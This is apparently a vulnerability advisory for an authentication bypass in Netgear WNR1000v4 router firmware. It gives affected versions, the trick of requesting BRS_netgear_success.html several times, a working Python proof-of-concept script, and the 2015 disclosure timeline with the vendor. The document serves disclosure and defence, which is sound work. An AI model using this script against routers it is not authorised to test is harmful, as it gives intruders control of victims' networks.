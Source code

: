 ```yaml
---
layout: post
author: H4
---
```


# Netgear WNR1000v4 AuthBypass [1]
[Details](https://www.exploit-db.com/exploits/39356)

# Media and Other Mentions
- [https://www.bbc.com/news/technology-34491583](https://www.bbc.com/news/technology-34491583)
- [routersploit](https://github.com/threat9/routersploit/blob/master/routersploit/modules/exploits/routers/netgear/n300_auth_bypass.py)
- [https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html](https://securityaffairs.co/wordpress/40920/hacking/netgear-router-exploit.html)
- [https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/](https://threatpost.com/disclosed-netgear-router-vulnerability-under-attack/114960/)

# Introduction
Multiple NETGEAR wireless routers are out of the box vulnerable to an authentication bypass attack. No router options has to be changed to exploit the issue. So an attacker can access the 
administration interface of the router without submitting any valid username and password, just by requesting a special URL several times.

# Affected
- Router Firmware: N300_1.1.0.31_1.0.1.img
- Router Firmware; N300-1.1.0.28_1.0.1.img
- Router Firmware; N300-1.1.0.24_1.0.1.img
- tested and confirmed on the WNR1000v4 Router with both firmwares
- other products may also be vulnerable because the firmware is used in multiple devices

# Technical Description
The attacker can exploit the issue by using a browser or writing a simple exploit.
1. When a user wants to access the web interface, a http basic authentication login process is initiated
2. If he does not know the username and password he gets redirected to the 401_access_denied.htm file
3. An attacker now has to call the URL http://<ROUTER-IP>/BRS_netgear_success.html multiple times
- After that the adversary can access the administration web interface and there is no username/password prompt

# PoC Python Script
```python
import os
import urllib2
import time
import sys

try:
	first = urllib2.urlopen("http://" + sys.argv[1])
	print "No password protection!"
except:
	print "Password protection detected!"
	print "Executing exploit..."
	for i in range(0,3):
		time.sleep(1)
		urllib2.urlopen("http://" + sys.argv[1] + "/BRS_netgear_success.html")

	second = urllib2.urlopen("http://" + sys.argv[1])
	if second.getcode() == 200:
		print "Bypass successfull. Now use your browser to have a look at the admin interface."
```

# Timeline
- 21.07.2015: Vendor notified per email (security@netgear.com) -> No response
- 23.07.2015: Vendor notified via official chat support
- 24.07.2015: Support redirected notification to the technical team
- 29.07.2015: Requested status update and asked if they need further assistance -> No response
- 21.08.2015: Notified vendor that we will go full disclosure within 90 days if they do not react
- 03.09.2015: Support again said that they will redirect it to the technical team
- 03.09.2015: Netgear sent some beta firmware version to look if the vulnerability is fixed
- 03.09.2015: Confirmed to Netgear that the problem is solved in this version -> Asked Netgear when they plan to release the firmware with this security fix
- 11.09.2015: Response from Netgear saying they will not disclose the patch release day
- 15.09.2015: Asked Netgear again when they plan to publish the security fix for the second time -> No response
- 29.09.2015: Full disclosure of this vulnerability by SHELLSHOCK LABS
- 06.10.2015: Forced public release of this advisory to follow up on [2]

# References
- [1] http://support.netgear.com/product/WNR1000v4
- [2] http://www.shellshocklabs.com/2015/09/part-1en-hacking-netgear-jwnr2010v5.html

